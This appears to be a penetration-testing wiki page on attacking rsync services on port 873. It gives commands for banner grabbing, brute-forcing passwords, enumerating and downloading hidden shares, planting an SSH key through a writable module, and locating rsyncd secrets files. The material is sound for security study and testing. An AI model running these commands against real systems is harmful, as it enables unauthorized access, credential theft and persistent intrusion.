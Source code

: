 # 873 - rsync

## Theory

**rsync** is a utility for efficiently transferring and synchronizing files between a computer and an external hard disk and between networked computers (usually Linux). It determines synchronization by checking file sizes and timestamps. The rsync algorithm is a type of delta encoding and is used to minimize network usage. Zlib can be used for additional data compression, and SSH or stunnel can be used for security. What is the problem with this service? Weak configurations often provide unauthorized access to sensitive data, and sometimes the means to obtain a shell on the system. As you can imagine, the access we get depends heavily on the Rsync configuration.

### Modules (Shared directory)

An rsync module is a shared directory and has many features that you should know before listing these:

* They can **optionally** be **password protected**.
* A **shared name can be configured not to be listed**. So there might be something **hidden**. For example, if the module is named after a user and the files are `.bash_history`, `.bashrc`, `.profile`, etc., there **may be an .ssh directory that is being hidden**.
* It may also be that **some shared names are listed where some (different) credentials are needed to access**. Therefore, not always all listed names are going to be accessible and you will notice it if you get an "**Access Denied**" message when trying to access some of them.

Example of an rsync module:

{% hint style="info" %}
All modules are in the `/etc/rsyncd.conf` file
{% endhint %}

```bash
[confidential]
    path = /home/rsync/secret-out
    read only = no
    # Authentication:
    uid = levi
    gid = levi
    auth users = levi
    secrets file = /etc/rsyncd.secrets
    comment = For your eyes only
    hosts allow = 10.10.10.10
    list = false # Hidden module
```

### Configuration

Remote access to shared directories via Rsync requires two things, **access to shared files** and **file permissions**.

* The **shared file access** can be defined in `/etc/Rsyncd.conf` to provide anonymous or authenticated access.
* **File permissions** can also be defined in `/etc/Rsyncd.conf` by defining the user under which the Rsync service will be run. If Rsync is configured to run as root, then anyone who has permission to log in can access the shared files with the privileges of the root user.

Below is an example Rsyncd.conf file that allows anonymous root access to the entire file system:

```bash
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid
[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## Practice

### Banner & Manual communication

```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### Bruteforce

```bash
# Username and password:
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
# Only password bruteforce (#1):
cat <WORDLIST> | while read pass; do export RSYNC_PASSWORD=${pass}; rsync --list-only rsync://<USERNAME>@<IP>:<PORT>/<SHARE_NAME/FILE> 2>&1 | grep -q "auth failed" || { echo "[+] Found password: ${RSYNC_PASSWORD}"; break; } done
# Only password bruteforce with sshpass (#2):
for i in $(cat <WORDLIST>.txt); do
    sshpass -p "$password" rsync  rsync://<USERNAME>@<IP>:<PORT>/<SHARE_NAME/FILE> &>/dev/null
    if [ "$(echo $?)" == "0" ]; then
        echo -e "\n[+] Password: $password"
        exit 0
    fi
done
```

### List shared name/folder (without/with credentials)

{% hint style="info" %}
**Module = Shared directory/folder**
{% endhint %}

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP> # Nmap
msf> use auxiliary/scanner/rsync/modules_list # Metasploit

# Without credenciales
rsync <IP>::
rsync --port <PORT> <IP>::
rsync -av --list-only rsync://<IP>:<PORT> # PORT is optional. The "-a" parameter lists all files.
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730 # For IPv6

# With credentials:
rsync -av --list-only rsync://<USERNAME>@<IP>

# With credentials and environment variables:
export RSYNC_PASSWORD="<PASSWORD>" # With this we avoid that it continues asking for the password.
rsync -av --list-only rsync://<USERNAME>@<IP>
```

Once you have the **list of modules** you have a few different options depending on the actions you want to take and whether or not authentication is required.

### Enumerate content

```bash
# List sub directory contents:
rsync <IP>::<SHARE NAME>
rsync --list-only rsync://<IP>:<PORT>/<SHARE NAME>

# List directories and files recursively:
rsync -r <IP>::<SHARE NAME>/<DIRECTORY>/
rsync -r rsync://<IP>:<PORT>/<SHARE NAME>
```

### Download files/folders (without/with credentials)

```bash
# Download file:
rsync rsync://<IP>:<PORT>/<SHARE NAME>/<PATH TO FILE> . # 
# Download all files and subdirs from a specified directory (-r):
rsync -r rsync://<IP>:<PORT>/<SHARE NAME>/<PATH TO DIRECTORY> .
# This recursively transfers all files from the directory <shared_name> on
# the machine <IP> into the "rsync_shared" directory on the local machine:
rsync -av rsync://<USERNAME>@<IP>:<PORT>/<SHARE NAME> rsyn_shared
```

{% hint style="info" %}
If you use the "`-a`" parameter, the files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.
{% endhint %}

### Upload files/folders (only with credentials)

```bash
rsync id_rsa.pub rsync://<USERNAME>@<IP>/<SHARE NAME>/<PATH>/authorized_keys # Upload file
rsync myfolder rsync://<USERNAME>@<IP>/<SHARE NAME>/<PATH>/<FOLDER NAME> # Upload folder
rsync mydir rsync://<USERNAME>@<IP>/<SHARE NAME>/<PATH>/<DIR NAME> # Upload directory with content
```

### POST-Exploitation

Find the rsyncd configuration file:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Inside the config file sometimes you could find the parameter _secrets file = /path/to/file_ and this file could contains usernames and passwords allowed to authenticate to rsyncd.

### References

{% embed url="https://book.hacktricks.xyz/pentesting/873-pentesting-rsync" %}

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync" %}

